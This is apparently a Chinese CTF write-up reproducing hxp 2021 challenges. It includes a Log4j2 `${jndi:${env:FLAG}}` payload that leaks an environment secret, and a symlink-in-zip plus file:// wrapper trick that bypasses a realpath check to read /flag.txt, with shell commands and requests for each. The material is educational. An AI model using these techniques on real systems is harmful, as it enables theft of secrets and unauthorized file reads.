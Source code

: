 # 前言

没做比赛，今天在看Go的时候偶然翻Z3ratu1师傅的博客发现更了hxp的复现wp，正好最近太久没有做题了，也来复现学习一下。



# Log 4 sanity check

MISC里面的一个题但是是log4j2，附件下载下来class反编译：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

import java.util.Scanner;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Vuln {
    public Vuln() {
    }

    public static void main(String[] var0) {
        try {
            Logger var1 = LogManager.getLogger(Vuln.class);
            System.out.println("What is your favourite CTF?");
            String var2 = (new Scanner(System.in)).next();
            if (var2.toLowerCase().contains("dragon")) {
                System.out.println("<3");
                System.exit(0);
            }

            if (var2.toLowerCase().contains("hxp")) {
                System.out.println(":)");
            } else {
                System.out.println(":(");
                var1.error("Wrong answer: {}", var2);
            }
        } catch (Exception var3) {
            System.err.println(var3);
        }

    }
}

```

直接error触发，但是尝试了似乎不能rce。

Dockerfile里面的最后一句`CMD ynetd -np y -lm -1 -lpid 64 -lt 10 -t 30 "FLAG='$(cat /flag.txt)' /home/ctf/run.sh"`，说明把`/flag.txt`里的内容写进了环境变量`FLAG`里面。

参考https://www.anquanke.com/post/id/263325#h2-4，敏感数据外带出来：`${jndi:${env:FLAG}}`

本来是要dns外带的，然后发现报错信息直接带出flag了：

![image-20211221155619314](hxpctf-2021-Web-Writeup.assets/image-20211221155619314.png)



# unzipper

没有太细看题目（毕竟是赛后复现有点浮躁，更多的是学习题目的思路了），所以配置文件没有太细读。



先捋一下思路吧。首先是个index.php：

```php
<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);

```

创建一个沙盒然后往里面解压zip。又给了一个任意文件读取的操作，但是有限制。

正常的思路可能就是解压文件穿越，我一开始也是这么想的，但是z3师傅的wp上提到了：

```php
        location = /index.php {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.4-fpm.sock;
        }
```

只有index.php可以被解析，所以解压穿越rce不行。那么下一个思路就是利用软连接来读取`/flag.txt`了（因为给的权限是004，正好可以读取）。

首先需要知道路径（穿越也可以，但是太麻烦了）。直接读session就可以知道沙盒的路径：

![image-20211221164127336](2021-hxpctf-Web-Writeup.assets/image-20211221164127336.png)

```
?file=/var/lib/php/sessions/sess_xxx
```

这样就知道路径了，接下来就上传一个带软连接的压缩包解压后直接读软连接即可。

但是并没有这么简单：

```php
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);
```

`realpath`返回的是规范化的绝对路径名，也处理了符号链接，所以会正常处理的话最后规范化得到的还是会带flag。



`realpath`有个问题就是不能识别各种协议，这将会导致它返回false，然后三元运算变成空字符串被匹配到导致了不能读取文件。

因此现在的思路就是，压缩包上传一个构造好的路径让realpath那里用协议不会返回false，然后在`readfile`那里用协议来读取软连接即可。

```shell
mkdir -p file:///var/www/html/data/ee82f45782f646535e3d60ee58be9290/feng
ln -s /flag.txt feng

root@VM-0-6-ubuntu:~# zip -y -r feng.zip feng file:
  adding: feng (stored 0%)
  adding: file:/ (stored 0%)
  adding: file:/var/ (stored 0%)
  adding: file:/var/www/ (stored 0%)
  adding: file:/var/www/html/ (stored 0%)
  adding: file:/var/www/html/data/ (stored 0%)
  adding: file:/var/www/html/data/de4e646eaeb13a2d2b0fc92169e5d406/ (stored 0%)
  adding: file:/var/www/html/data/de4e646eaeb13a2d2b0fc92169e5d406/feng/ (stored 0%)
root@VM-0-6-ubuntu:~#

```

上传上传然后直接`?file=file:///var/www/html/data/de4e646eaeb13a2d2b0fc92169e5d406/feng`即可。

![image-20220105170821356](2021-hxpctf-Web-Writeup.assets/image-20220105170821356.png)

postman的PHPSESSID记得和浏览器的一样。

![image-20220105170845010](2021-hxpctf-Web-Writeup.assets/image-20220105170845010.png)

# includer's revenge

参考文章：https://tttang.com/archive/1395/

没啥好说的，直接用这个nb的姿势就行了。

# counter

直接拿上面那题的都可以打穿。预期解之后有空再学习了。



# shitty blog

之后复现


